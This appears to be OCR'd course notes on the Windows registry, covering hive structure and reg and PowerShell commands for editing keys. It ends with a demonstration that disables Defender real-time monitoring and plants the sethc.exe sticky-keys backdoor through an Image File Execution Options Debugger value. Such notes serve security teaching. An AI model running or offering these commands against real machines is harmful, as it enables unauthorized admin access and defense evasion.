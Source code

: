         - `get-Localuser | select name, sid`
        - `wmic useraccount get name, sid`
    - `HKEY_CURRENT_USERS`: copy of current user's registry key based on SID from `HKEY_USERS`
    - `HKEY_CURRENT_CONFIG`: symlink to `HKLM/SYSTEM/CurrentControlSet/HardwareProfiles/Current`
    - `HKEY_CLASSES_ROOT`: symlink to `HKLM/Software/Classes`
#### 2.3 Registry Manipulation
  - Manipulate remote registry via GUI
    - File -> Connect Network Registry -> `file-server`
  - Create copy of registry
    - File -> Import/Export
  - `regedit` to manipulate via GUI
    - commonly disabled using group policy
  - `reg` to manipulate via cmd/PS
    - `reg /?`
    - `reg query/add/delete`
      - `reg query  HKLM\...\Run`
      - `reg add    HKLM\...\Run /v value /t type /d data`
      - `reg delete HKLM\...\Run /v value`
  - commands to manipulate via PS
    - Query:
      - `Get-ChildItem`: only shows subkeys in the specified directory
        - `Get-ChildItem HKLM:\SOFTWARE\...\Run` -> nothing
        - `Get-ChildItem HKLM:\SOFTWARE\...\CurrentVersion` -> many subkeys
      - `Get-ItemProperty`: gets value of key + other shit
      - `Get-Item`: gets actual value of the key
        - `Get-Item HKLM:\SOFTWARE\...\Run` -> gets value of `Run`
    - Modify
      - `Set-ItemProperty`
      - `Rename-ItemProperty`
      - `Remove-ItemProperty`
    - Create
      - `New-Item`: creates new subkey
        - `New-Item HKLM:\SOFTWARE\...\trustedrecords -force`
      - `NewItemProperty`
  - Sethc.exe demonstration (manipulating sticky keys function)
    - We will bind sticky keys (pressing shift 5 times) to open admin terminal, rather than applying sticky keys. Antivirus must be turned off for this to work.
      - `GetMpPreference`: gets status of antivirus (and other things)
        - `DisableRealTimeMonitoring` = `True` implies antivirus is off
          - if `False`, to turn it off (change it to `True`), run:
            - `Set-MpPreference -DisableRealTimeMonitoring $TRUE`
      - `New-Item "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe"`
      - `New-ItemProperty -path "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" -Name Debugger -Type String -Value C:\Windows\System32\cmd.exe`
    - move this exploit to a thumb drive
      - sysinternals provides technical utilities remotely
        - `net use * https://live.sysinternals.com/tools`
        - `net use`
      - `Z:\autoruns.exe -accepteula`
        - Image Hijacks -> Jump To Entry -> Image File Execution Options -> sethc.exe -> export
